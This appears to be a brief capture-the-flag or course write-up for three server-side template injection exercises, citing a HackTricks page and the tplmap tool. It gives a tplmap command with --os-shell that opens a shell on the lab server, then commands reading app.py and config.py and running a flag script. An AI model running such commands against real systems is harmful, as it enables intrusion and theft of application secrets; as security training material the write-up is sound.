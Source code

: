
  

#  STTI

  

####  For understanding SSTI (Server Side Template Injection), I googled it and fond this page. 
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
#### Then I checked on github if I can find a tool that find and use vulnerabilities.
https://github.com/epinna/tplmap
For the 3 exercises, I use a single command that create a remote web shell.

```console
python3 tplmap.py -u 'https://ssti1.secu-web.blackfoot.dev/?username=47' --os-shell
```
When the shell was set and ready to execute command, I started with ```ls```.

  

##  STI 1
```cat app.py```.
  

##  STI 2
```cat config.py```.
  

##  STI 3
```./getFlag.py```.
